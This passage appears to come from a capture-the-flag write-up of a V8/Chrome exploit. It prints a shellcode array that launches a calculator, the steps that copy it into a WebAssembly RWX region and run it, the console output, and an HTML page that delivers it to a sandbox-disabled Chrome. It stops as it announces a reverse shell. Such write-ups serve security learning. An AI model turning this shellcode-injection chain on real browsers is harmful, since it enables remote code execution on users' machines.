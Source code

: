 ```javascript
var shellcode=[0x90909090,0x90909090,0x782fb848,0x636c6163,0x48500000,0x73752fb8,0x69622f72,0x8948506e,0xc03148e7,0x89485750,0xd23148e6,0x3ac0c748,0x50000030,0x4944b848,0x414c5053,0x48503d59,0x3148e289,0x485250c0,0xc748e289,0x00003bc0,0x050f00];
```

And then we just copy it over and pop a calculator:

```javascript
console.log("[+] Copying Shellcode...");

copy_shellcode(rwx_base, shellcode);

console.log("[+] Running Shellcode...");

f();
```

Running this under GDB causes it to crash for me, but running it in bash works fine:

```bash
$ ./d8 --shell exploit2.js 
[+] Address of Arbitrary RW Array: 0x19b85504fea1
[+] WASM Instance at 0x189e40ca1761
[+] RWX Region located at 0x29686af10000
[+] Copying Shellcode...
[+] Running Shellcode...
Warning: Cannot convert string "-adobe-symbol-*-*-*-*-*-120-*-*-*-*-*-*" to type FontStruct
```

With a calculator popped!

<details><summary>Full Exploit</summary></details>

#### Popping it on Chrome

Create an `index.html` with the following code:

```markup
<html>
  <head>
    <script src="exploit2.js"></script>
  </head>
</html>
```

Make sure `exploit2.js` is in the same folder. Then load the `index.html` with the version of Chrome bundled in the challenge:

```bash
$ ./chrome --no-sandbox ../../index.html
```

And it pops calculator! You can also place it in another folder and use python's SimpleHTTPServer to serve it and connect that way - it works either way.

#### Getting a Reverse Shell instead

Well, we are hackers, we like the idea of a reverse shell, no? Plus it makes you feel way cooler to be able to do that.
